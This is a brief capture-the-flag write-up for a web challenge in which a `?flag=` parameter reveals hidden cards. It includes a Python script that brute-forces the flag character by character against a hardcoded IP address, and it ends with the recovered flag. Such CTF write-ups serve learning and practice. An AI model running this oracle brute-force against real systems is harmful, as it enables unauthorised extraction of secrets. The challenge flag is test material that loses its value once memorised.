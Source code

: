 Website shows blank cards and challenge description pointed to `?flag=` parameter

![image](https://user-images.githubusercontent.com/44019881/161449766-7e717461-11a4-476e-9f50-8d452a6b41b7.png)


After supplying the flag format some cards are exposed

![image](https://user-images.githubusercontent.com/44019881/161449779-a8d5bda7-a92d-47ef-a967-269c5f0fc195.png)

Bruteforce script

```python
import requests
import string
import re
from time import sleep

URL = 'http://172.105.154.14/?flag='
DICT = string.printable
REGEX = "<div>\n\n(.*\n)\n<\/div>"
FLAG='shctf{'
tempFlag='shctf{'

while True:
    for ch in DICT:
        print(f'\rFLAG={FLAG+str(ch)}',end='')
        r = requests.get(URL+FLAG+str(ch))
        flagre = re.findall(REGEX, r.text)
        tempFlag = ''.join([f.strip() for f in flagre[:-1]])
        if tempFlag == FLAG+str(ch):
            FLAG += str(ch)
            print(f"\rFLAG={FLAG}",end='')
            break
```

![image](https://user-images.githubusercontent.com/44019881/161449792-620fa951-ae7c-40a2-af79-2fcbee7aa431.png)

`shctf{2_explor3_fronti3r}`
